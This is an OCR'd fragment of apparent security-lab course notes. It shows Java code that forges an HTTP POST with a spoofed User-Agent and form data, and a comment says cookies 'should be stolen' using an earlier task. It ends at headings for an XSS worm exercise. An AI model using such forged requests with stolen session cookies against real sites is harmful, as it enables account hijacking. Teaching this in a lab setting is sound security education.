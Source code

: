 ```
    urlConn.setReadTimeout(90000);
    }
    // addRequestProperty method is used to add HTTP Header Information.
    // Here we add User-Agent HTTP header to the forged HTTP packet.
    // Add other necessary HTTP Headers yourself. Cookies should be stolen
    // using the method in task3.
    urlConn.addRequestProperty("User-agent","Sun JDK 1.6");
    //HTTP Post Data which includes the information to be sent to the server.
    String data="name=test&desc=test...&assignto[]=...&assignme=1";
    // DoOutput flag of URL Connection should be set to true
    // to send HTTP POST message.
    urlConn.setDoOutput(true);
    // OutputStreamWriter is used to write the HTTP POST data
    // to the url connection.
    OutputStreamWriter wr = new OutputStreamWriter(urlConn.getOutputStream());
    wr.write(data);
    wr.flush();
    // HttpURLConnection a subclass of URLConnection is returned by
    // url.openConnection() since the url is an http request.
    if (urlConn instanceof HttpURLConnection) {
    HttpURLConnection httpConn = (HttpURLConnection) urlConn;
    // Contacts the web server and gets the status code from
    // HTTP Response message.
    responseCode = httpConn.getResponseCode();
    System.out.println("Response Code = " + responseCode);
    // HTTP status code HTTP_OK means the response was
    // received sucessfully.
    if (responseCode == HttpURLConnection.HTTP_OK) {
    Laboratory for Computer Security Education 6
    // Get the input stream from url connection object.
    responseIn = urlConn.getInputStream();
    // Create an instance for BufferedReader
    // to read the response line by line.
    BufferedReader buf_inp = new BufferedReader(
    new InputStreamReader(responseIn));
    String inputLine;
    while((inputLine = buf_inp.readLine())!=null) {
    System.out.println(inputLine);
    }
    }
    }
    } catch (MalformedURLException e) {
    e.printStackTrace();
    }
    }
    } 
```

### lab5 XSS 蠕虫

#### xss 蠕虫 cross site scripting worm
